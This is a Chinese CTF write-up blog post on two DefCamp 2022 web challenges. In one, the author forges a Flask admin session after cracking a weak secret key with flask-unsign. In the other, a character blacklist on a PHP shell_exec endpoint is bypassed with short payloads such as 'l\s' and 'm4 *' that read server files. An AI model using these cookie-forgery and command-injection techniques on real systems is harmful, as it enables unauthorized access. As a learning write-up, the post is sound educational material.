 ```yaml
---
title: "defcampCTF2022 Wp"
slug: "defcampctf2022-wp"
description: "懒狗附体，想复现的时候环境都关了，所以只有两道题"
date: 2022-02-17T01:09:02+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


其余的看wp云了

https://dctf21.cyberedu.ro/#challenges

https://ctftime.org/event/1560/tasks/

http://www.yongsheng.site/2022/02/14/DefCamp%20CTF(D-CTF)2021-22%20web/

## web-intro

> Are you an admin?
>
> Note: **Access Denied** is part of the challenge.
>
> 34.159.7.96:32291

首页就是403，cookie部分是flask session

```bash
$ python3 flask_session_cookie_manager3.py decode -c 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.YgfX-Q.-TlY9gWLpyzptE31U0IwjpQ74ZI'
b'{"logged_in":false}'
```

但是不知道secret-key是啥，用c-jwt-cracker，爆了很久没爆出来key，换flask-unsign

```
flask-unsign --unsign --cookie "eyJsb2dnZWRfaW4iOmZhbHNlfQ.YgfX-Q.-TlY9gWLpyzptE31U0IwjpQ74ZI"
```

特别快就跑出来了。。。key是`password`，把false改为true即可，注意t要大写！

```
flask-unsign --sign --cookie "{'logged_in':True}" --secret 'password'
```

eyJsb2dnZWRfaW4iOnRydWV9.Yg0uRg.9__6dvOpRJAfT_xO1SeU_jNk3CQ

这个故事告诉我们不能用c-jwt-cracker，快跑！！！

## para-code

> I do not think that this API needs any sort of security testing as it only executes and retrieves the output of ID and PS commands.
>
> 34.159.129.6:32136

```php
<?php
require __DIR__ . '/flag.php';
if (!isset($_GET['start'])){
    show_source(__FILE__);
    exit;
}

$blackList = array(
  'ss','sc','aa','od','pr','pw','pf','ps','pa','pd','pp','po','pc','pz','pq','pt','pu','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','ls','dd','nl','nk','df','wc', 'du'
);

$valid = true;
foreach($blackList as $blackItem)
{
    if(strpos($_GET['start'], $blackItem) !== false)
    {
         $valid = false;
         break;
    }
}

if(!$valid)
{
  show_source(__FILE__);
  exit;
}

// This will return output only for id and ps.
if (strlen($_GET['start']) < 5){
  echo shell_exec($_GET['start']);
} else {
  echo "Please enter a valid command";
}

if (False) {
  echo $flag;
}

?>


```

一看这个代码以为致敬[HitconCTF 2017]babyfirst-revenge，不过多了blacklist

然后试了半天发现好像不太行，黑名单太多了导致用那种方式完全做不了，也没有考虑其它角度 就放弃了

看了wp之后才发现我是小丑，tmd

```
/?start=l\s	# flag.php index.php
/?start=m4 *
```

用到的m4命令，之前完全没用过……所以也没想到

![image-20220217013744152](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220217013744152.png)

------

最近做题和学习中明显地发现了自己的不足之处，就是动手太少了，觉得脑子能记住能理解，但实际情况往往就不是这么一回事，你不动手做就是不会，就是不知道中间的坑点在哪里，这样畏手畏脚地是绝对走不远的，也会让自己很难受

时刻提醒自己，要脚踏实地的学，认真一些